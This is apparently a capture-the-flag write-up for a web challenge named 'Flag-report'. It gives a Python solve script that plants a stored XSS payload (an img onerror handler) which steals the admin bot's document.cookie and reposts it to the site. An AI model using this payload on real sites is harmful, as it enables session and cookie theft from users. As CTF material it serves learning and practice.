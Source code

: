 Flag-report - Web

It was clearly XSS by creating a new post such that when reported and looked by the bot. Was just trying it when the CTF ended. Got it after it ended.
<h1>Solve.py</h1>

```
import requests

URL = "http://localhost:5000" 

create_url = f"{URL}/create"
data = {
    "title": "x",
    "body": """<img src=x onerror='fetch("/create", { method: "POST", body: new URLSearchParams({ title: "flag", body: "flag: " + document.cookie }) });'>""",
}

x = requests.post(create_url, data=data)
print(x.status_code)

post_id = 1
report_url = f"{URL}/report?id={post_id}"
x = requests.get(report_url)
print(requests.text)
```